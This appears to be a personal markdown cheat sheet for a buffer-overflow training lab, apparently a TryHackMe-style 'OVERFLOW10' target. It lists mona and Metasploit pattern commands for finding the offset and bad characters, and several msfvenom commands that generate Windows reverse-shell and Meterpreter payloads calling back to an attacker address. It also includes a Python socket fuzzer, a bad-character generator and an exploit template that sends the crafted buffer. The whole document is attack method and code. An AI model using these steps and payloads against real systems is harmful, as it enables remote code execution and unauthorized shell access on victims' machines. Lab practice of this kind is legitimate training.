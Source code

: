 # Methods

## Buffer Overflow:

nc 10.10.9.228 1337

!mona config -set workingfolder c:\Users\admin\Desktop\patota

python3 fuzzer.py

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l ###

exploit

!mona findmsp -distance DISTANCE == Find Offset

or

/usr/bin/msf-pattern_offset -l DISTANCE -q EIP Register

retn = BBBB

!mona bytearray -b "\x00"

!mona compare -f C:\Users\admin\Desktop\patota\bytearray.bin -a ESP

!mona jmp -r esp -cpb "\x00\x01"

retn = jmp

msfvenom -p windows/shell_reverse_tcp LHOST=10.9.1.255 LPORT=4444 EXITFUNC=thread -b "\x00\x0a" -f c

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.1.255 LPORT=4444 -f rb -b "\x00\x0a" -f c

msfvenom -p windows/shell_reverse_tcp LHOST=10.9.1.255 LPORT=4444 -b "\x00" -f c

msfvenom -p windows/shell_reverse_tcp LHOST=10.9.1.255 LPORT=4444 -e x86/shikata_ga_nai -f py -b "\x00"



## Script Fuzzer
```
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.9.228"

port = 1337
timeout = 5
prefix = "OVERFLOW10 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

## Script Strings
```
#listRem = "\\x11".split("\\x")
#

for x in range(1, 256):
  #if "{:02x}".format(x) not in listRem:
    print("\\x" + "{:02x}".format(x), end='')
print()

```

## Exploit
```
import socket

ip = "10.10.9.228"
port = 1337

prefix = "OVERFLOW10 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```